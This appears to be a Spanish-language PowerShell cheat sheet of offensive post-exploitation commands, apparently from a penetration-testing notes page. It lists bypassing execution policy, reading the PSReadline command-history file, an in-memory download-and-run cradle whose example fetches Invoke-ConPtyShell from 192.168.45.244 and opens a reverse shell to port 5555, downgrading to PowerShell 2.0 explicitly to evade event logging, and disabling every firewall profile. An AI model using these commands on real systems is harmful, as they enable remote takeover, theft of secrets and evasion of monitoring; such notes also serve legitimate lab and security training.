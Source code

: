 - Cambiar temporalmente la política de ejecución
	```powershell
	Set-ExecutionPolicy Bypass -Scope Process
	```

- Devolver valores de entorno (rutas clave, usuarios, etc.)
	```powershell
	Get-ChildItem Env:
	```

- Mostrar historial de comandos de PowerShell
	```powershell
	Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
	```
- Descargar un archivo y cargarlo en memoria (`-nop`: no profile)
	```powershell
	powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
	#Ejemplo:
	powershell -nop -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.45.244:8000/Invoke-ConPtyShell.ps1'); Invoke-ConptyShell 192.168.45.244 5555"
	```
## Degradar PowerShell
Puede ser útil para ser sigilosos, ya que a partir de la versión 3.0 de powershell se introdujo el event logging
- Comprobar versión actual de PowerShell
	```powershell
	get-host
	```
- Degradar a PowerShell 2.0
	```powershell
	powershell.exe -version 2
	```
- Verificar cambio de versión
	```powershell
	get-host
	```

## Comprobar Firewall
- Verificar el estado del firewall en todos los perfiles
	```powershell
	netsh advfirewall show allprofiles
	```

- Obtener configuraciones avanzadas del sistema y estado de seguridad
	```powershell
	Get-MpComputerStatus
	```
-  Desactivar firewall
	```powershell
	Set-NetFirewallProfile -Profile Public,Private,Domain -Enabled False
	```
